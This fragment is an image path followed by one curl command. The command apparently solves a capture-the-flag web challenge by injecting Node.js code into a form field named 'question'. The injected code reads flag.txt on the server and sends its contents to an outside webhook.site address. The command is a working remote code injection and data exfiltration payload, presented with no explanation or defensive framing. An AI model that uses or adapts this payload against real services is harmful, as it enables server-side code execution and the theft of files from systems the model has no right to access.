 `curl -XPOST --location 'https://simple-question.semanthon.com' --header 'Content-Type: application/x-www-form-urlencoded' --data-urlencode 'question=fs=require('\''fs'\'');a=fs.readFileSync('\''flag.txt'\'');http=require('\''http'\'');http.get("http://webhook.site/71a7dc1c-28cd-4b5b-8c3a-db6d8d41f880/"+a.toString());'` 